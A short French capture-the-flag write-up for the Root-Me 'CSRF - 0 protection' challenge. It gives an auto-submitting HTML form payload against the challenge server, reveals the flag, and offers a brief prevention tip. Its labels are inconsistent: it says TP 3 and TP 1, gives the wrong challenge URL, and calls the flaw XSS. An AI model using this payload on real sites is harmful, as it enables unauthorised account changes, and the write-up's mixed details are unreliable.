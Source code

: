 ```yaml
---
title: "TP 3 : rootme 10"
excerpt: "CSRF - 0 protection"
coverImage: "https://www.tice-education.fr/images/stories/img/rootmelogo.jpg"
date: "2025-07-01T12:05:00.000Z"
ogImage:
    url: "https://www.tice-education.fr/images/stories/img/rootmelogo.jpg"
---
```


# TP 1 : CSRF - 0 protection

## Informations générales

-   **Nom du challenge** : CSRF - 0 protection
-   **Difficulté** : 3
-   **URL** : https://www.root-me.org/fr/Challenges/Web-Client/Javascript-Authentification

---

## 1. Compréhension du challenge

### Objectif : Trouver cookie admin

### Contexte technique : forum avec form sensible au xss

---

## 2. Étapes de résolution

### Étape 1 : créer un compte

### Étape 2 : aller dans le profil puis contact

### Etape 3 : utiliser la faille XSS de la page de contact pour effectuer une redirection javascript et une validation du formulaire POST

```html
<form
    name="test"
    method="POST"
    action="http://challenge01.root-me.org/web-client/ch22/?action=profile"
>
    <input type="hidden" name="username" value="armand" />
    <input type="hidden" name="status" value="on" />
</form>
<script>
    document.test.submit();
</script>
```

### Etape 4 : Acceder à la page private en tant qu'admin et recuperer le flag

---

## 3. Capture ou extrait de code

![1](https://cdn.discordapp.com/attachments/1020343302052118589/1389547586079293450/image.png?ex=68650489&is=6863b309&hm=78ec9c4b9580cfcc7ee966530cf45a64f3b963ff69e75b7ac3d2435ea3dd75e9&)

![2](https://cdn.discordapp.com/attachments/1020343302052118589/1389549879424188508/image.png?ex=686506ab&is=6863b52b&hm=c1d011022335c78ce13a24bec8411b40de84efb20cd6c8206adaa0ca4015523d&)

![3](https://cdn.discordapp.com/attachments/1020343302052118589/1389549947568918538/image.png?ex=686506bc&is=6863b53c&hm=175d7c710d4ae184ae0eb0b09c802fb34afab564ecc40a836dd01e5a7590d15c&)

---

## 4. Explication technique

### Vulnérabilité exploitée : Manque de prrotection XSS sur les champs

---

## 5. Résultat : Csrf_Fr33style-L3v3l1!

---

## 6. Prévention / bonnes pratiques :

### Proteger les input des attaques XSS
